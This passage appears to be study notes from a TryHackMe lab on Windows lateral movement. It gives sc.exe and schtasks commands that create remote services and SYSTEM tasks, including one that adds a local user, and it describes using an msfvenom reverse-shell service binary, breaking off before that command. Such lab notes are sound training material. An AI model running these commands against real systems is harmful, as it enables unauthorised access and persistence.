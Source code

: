 * sc will try to reach SVCTL through SMB named pipes (TCP139 or TCP/445) if the DCE/RPC connection fails.

![](<../.gitbook/assets/3 (5).png>)

* Create and start the “thmservice”.
  * net user command will create a new local user on the system when the service starts.

sc.exe \\\\\<target> create thmservice binpath= “net user \<username> \<password> /add” start= auto

sc.exe \\\\\<target> start thmservice

* Stop and delete the service:

sc.exe \\\\\<target> stop thmservice

sc.exe \\\\\<target> delete thmservice

### Creating Scheduled Tasks Remotely <a href="#pnr0i82m5he6" id="pnr0i82m5he6"></a>

* Native Windows schtasks tool can create and run scheduled tasks remotely.
* Create the “thmtask1” task:

schtasks /s \<target> /RU “SYSTEM” /create /tn “thmtask2” /tr “\<payload>” /sc ONCE /sd 01/01/1970 /st 00:00

schtasks /s \<target> /run /TN “thmtask1”

* Delete the scheduled task:

schtasks /S \<target> /TN “thmtask1” /DELETE /F

#### Lateral Movement Using sc Exercise <a href="#id-84uh9r2q7ksi" id="id-84uh9r2q7ksi"></a>

* Assumption is that valid credentials with administrative access have already been captured.
* SSH to jumpbox using non-privileged credentials:

ssh za\\\natasha.howells@thmjmp2.za.tryhackme.com

* sc.exe can be used to upload a reverse shell binary and associate it with a created service.
* Service executables are different to standard .exe files as the service manager will kill them almost immediately.
* Msfvenom supports the exe-service format that encapsulates the payload inside a fully functional service executable that prevents it from being killed.
* Create a stageless reverse shell using Msfvenom:
